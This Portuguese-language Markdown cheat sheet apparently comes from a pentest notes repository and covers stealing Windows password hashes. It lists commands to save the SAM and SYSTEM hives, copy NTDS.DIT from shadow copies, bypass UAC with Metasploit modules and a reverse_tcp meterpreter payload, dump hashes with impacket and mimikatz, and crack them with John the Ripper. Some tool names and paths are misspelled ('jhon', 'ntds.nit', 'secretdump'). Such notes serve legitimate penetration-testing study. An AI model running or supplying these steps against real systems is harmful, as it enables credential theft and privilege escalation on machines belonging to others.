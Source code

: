 # Windows Hashes

## Padrão de Hash do Windows

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``  
LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows  
Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*  
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*  
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*  
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**  
Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**  
Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``  
``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**  
Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional  
``vssadmin list volumes``

Montar uma cópia do volume alvo  
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local  
``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``  
``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``  
``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Bypass UAC (Executar como Administrador)

**Enviar solicitação ao usuário - Meterpreter**  
Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**  
Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes  
Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**  
``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**  
``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**  
``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes  
Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**  
``jhon --format=nt hash``

**Quebra de Hash com LM:**  
``jhon --format=lm hash``

## Obtendo hashes de senhas do Windows em cache  
Para recuperar hashes de senhas que estão armazenadas no cache ou na memória do Windows, utilize aguns dos utilitários abaixo:

**fgdump**  
*Download: /usr/share/windows-binaries/fgdumb/fgdumb.exe (Kali)*  
Executar na máquina alvo, irá retornar dois arquivos com os hashes das senhas locais e do AD.

**WCE Universal**  
*Download: /usr/share/windows-resources/wce/wce-universal.exe (Kali)*  
O utilitário wce-universal.exe possui diversas formas de ser executado, duas delas são a mais simples que é sem argumentos, `wce-universal.exe`, onde irá retornar os hashes armazenados no cache e a outra forma é com o argumento -w  `wce-universal.exe -w` que retorna a senha em texto claro.

**Meterpreter**  
Com a sessão iniciada no meterpreter, carregue o módulo mimikatz com `load mimikatz` e utilize uma das variações abaixo:  
  
- `wdigest`
- `mimikatz_command -f sekurlsa::wdigest -a full`
- `mimikatz_command -f sekurlsa::searchPasswords`
- `mimikatz_command -f sekurlsa::logonPasswords`


